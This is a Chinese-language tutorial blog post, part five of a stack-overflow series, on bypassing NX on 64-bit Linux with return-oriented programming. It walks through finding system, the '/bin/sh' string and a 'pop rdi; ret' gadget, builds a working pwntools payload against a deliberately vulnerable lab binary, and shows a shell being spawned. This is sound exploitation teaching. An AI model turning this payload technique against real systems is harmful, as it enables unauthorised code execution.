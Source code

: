 ```yaml
---
id: 780
layout: post
title: '二进制安全之栈溢出（五）'
date: 2017-10-24 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


NX 不可执行是一项重要的漏洞利用缓解措施，为了绕过 NX 我们需要利用已有的可执行区域的代码片段来辅助完整漏洞利用。

这次还是需要禁用 ASLR，编译参数为 `gcc -g -O0 -fno-stack-protector -o vuln main.c`

在 32 位系统中，函数调用参数都是通过栈来传递的，而在 64 位系统中，函数参数是优先使用寄存器来传递的，当参数少于 7 个时，参数从左到右放入寄存器 rdi, rsi, rdx, rcx, r8, r9，如果超过 7 个，剩下的参数还是使用栈来传递。

在 32 位系统中，因为栈是相对容易控制的，我们可以控制栈为函数参数的形式，然后覆盖返回地址为已有的函数地址，比如 libc 中的 system 函数，这样就可以实现任意命令执行了。但是在 64 位系统中，控制了栈是没有用的，必须要控制寄存器才可以，除非是函数不需要参数。所以我们需要找到一些已有的指令片段，比如 `pop rdi`，会把栈中的参数转移到寄存器中，这样逐步的控制所需的所有寄存器，我们称这种指令片段为 gadget。

## 需要什么

以执行 `system("/bin/sh")` 为例

 - `system` 函数的地址，因为禁用了 ASLR，这个地址可以放心的硬编码。
 - 要执行的函数参数，这里是 `/bin/sh`，需要在内存中放置或者找到一个已有的。
 - 一个可以把 `/bin/sh` 放入 rdi 寄存器的 gadget。

## `system("/bin/sh")`

`system` 函数的地址可以简单获得

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x400550 <system@plt>
```

而寻找 `/bin/sh` 可以使用 `find` 命令

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
```

发现 libc 中有一个，而 `student` 内存我们可以控制，也可以自己放置一个，这次先使用 libc 中的。

## gadget 的选择

我们需要一个能把 `0x7ffff7b99d17` 放入寄存器的 gadget

[Ropper](https://github.com/sashs/Ropper) 是一个寻找 gadget 的工具，安装后可以使用下面的命令来寻找 

```
python Ropper.py --file VULN_PATH --search "% rdi"
```

可以看到结果是 

```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % ?di

[INFO] File: ../vuln
0x0000000000400803: pop rdi; ret;
```

发现结果非常理想， `pop rdi; ret;` 可以复制参数到寄存器，其次是 `ret` 可以让程序再回到我们控制的地址上继续后续的执行。

## shellcode

仿照之前的写法，我们很简单就可以写出 shellcode

```python
from pwn import *
shellcode = "1925\n"
shellcode += "A" * (0x7fffffffe348 - 0x7fffffffe2f0)
# pop rdi; ret
shellcode += p64(0x0000000000400803)
# /bin/sh
shellcode += p64(0x7ffff7b99d17)
# system
shellcode += p64(0x400550)

print shellcode
```

## 分析

这个栈布局已经是很清楚了

```
0016| 0x7fffffffe2f0 ('A' <repeats 88 times>, "\003\b@")
0024| 0x7fffffffe2f8 ('A' <repeats 80 times>, "\003\b@")
0032| 0x7fffffffe300 ('A' <repeats 72 times>, "\003\b@")
0040| 0x7fffffffe308 ('A' <repeats 64 times>, "\003\b@")
0048| 0x7fffffffe310 ('A' <repeats 56 times>, "\003\b@")
0056| 0x7fffffffe318 ('A' <repeats 48 times>, "\003\b@")
0064| 0x7fffffffe320 ('A' <repeats 40 times>, "\003\b@")
0072| 0x7fffffffe328 ('A' <repeats 32 times>, "\003\b@")
0080| 0x7fffffffe330 ('A' <repeats 24 times>, "\003\b@")
0088| 0x7fffffffe338 ('A' <repeats 16 times>, "\003\b@")
0096| 0x7fffffffe340 ("AAAAAAAA\003\b@")
0104| 0x7fffffffe348 --> 0x400803 (<__libc_csu_init+99>:	pop    rdi)
0112| 0x7fffffffe350 --> 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
0120| 0x7fffffffe358 --> 0x400550 (<system@plt>:	jmp    QWORD PTR [rip+0x200aca]        # 0x601020)
```

在 GDB 中运行，可以看到 `/bin/dash` 被执行，其实 `/bin/sh` 就仅仅是它的一个符号链接。

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
0x7fffffffe2f0What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
[New process 4824]
process 4824 is executing new program: /bin/dash
[New process 4825]
process 4825 is executing new program: /bin/dash
[Inferior 3 (process 4825) exited normally]
Warning: not running or target is remote
```

会发现两个 `/bin/dash` 的原因是 `system` 函数的原理是 `/bin/sh -c $cmd`，所以会先启动一个 `/bin/sh`，然后 `execve` 想运行的命令，这里还是 `/bin/sh`。

因为禁用 ASLR 的原因，libc 的加载地址不变，这个 shellcode 也是可以直接运行的

```
➜  new (cat in.txt; cat) |./vuln
0x7fffffffe360What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
id
uid=1000(virusdefender) gid=1000(virusdefender) groups=1000(virusdefender),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

当然这个 gadget 也不唯一，比如 `python Ropper.py --file /lib/x86_64-linux-gnu/libc.so.6 --search "pop|call"` 得到的 `0x00000000001073d9: pop rax; pop rdi; call rax;` 也非常好用。


## 参考

 - [https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/)
 - [https://zhuanlan.zhihu.com/p/23537552](https://zhuanlan.zhihu.com/p/23537552)

